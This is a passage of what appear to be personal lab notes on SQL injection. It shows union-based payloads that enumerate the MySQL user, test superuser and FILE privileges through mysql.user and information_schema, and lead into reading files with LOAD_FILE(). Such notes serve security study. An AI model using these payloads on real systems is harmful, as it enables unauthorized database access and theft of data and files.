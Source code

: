 ```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
	 
- Which tells us our current user, which in this case is `root`:
	
![[Pasted image 20250523121620.png]]
	
- This is very promising, as a root user is likely to be a DBA, which gives us many privileges.
### User Privileges
- Now that we know our user, we can start looking for what privileges we have with that user.
	
- First of all, we can test if we have super admin privileges with the following query:
	
```sql
SELECT super_priv FROM mysql.user
```
	
- Once again, we can use the following payload with the above query.
	
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
	
- If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`.
	
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
	
![[Pasted image 20250523122028.png]]
	
- The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query.
	
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
	
- From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. 
	
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
	
- And we see all of the possible privileges given to our current user.
	
![[Pasted image 20250523122358.png]]
	
- We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.
### LOAD_FILE
- Once **sufficient privileges** are confirmed, **system files** can be read.
    
- In **MariaDB / MySQL**, the **`LOAD_FILE()`** function allows reading local files.
    
